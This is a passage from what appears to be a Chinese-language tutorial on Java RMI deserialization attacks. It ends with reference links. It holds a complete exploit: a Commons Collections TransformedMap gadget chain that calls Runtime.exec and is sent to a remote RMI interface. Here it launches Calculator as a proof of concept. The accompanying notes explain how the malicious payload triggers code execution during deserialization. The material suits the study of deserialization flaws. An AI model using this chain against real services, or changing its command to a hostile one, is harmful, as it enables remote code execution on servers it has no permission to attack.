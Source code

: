 ```java
        System.out.println(userClient.name("lala"));
        userClient.say("world");
        userClient.dowork(getpayload());
    }
    public static Object getpayload() throws Exception{
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}),
                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}),
                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);

        Map map = new HashMap();
        map.put("value", "lala");
        Map transformedMap = TransformedMap.decorate(map, null, transformerChain);

        Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
        ctor.setAccessible(true);
        Object instance = ctor.newInstance(Target.class, transformedMap);
        return instance;
    }
}
```

》第3-11行，反射执行命令需要用到的库

》第19行，获取远程调用实例

》第23行，调用dowork函数，发送恶意payload给远程接口，将造成反序列化弹出计算机。

## 0x05 补充

collections库反序列化将后续再进行学习。

## 0x06 参考

- https://xz.aliyun.com/t/6660#toc-3
- https://xz.aliyun.com/t/9261
- https://xz.aliyun.com/t/7932#toc-5
- https://xz.aliyun.com/t/7932#toc-5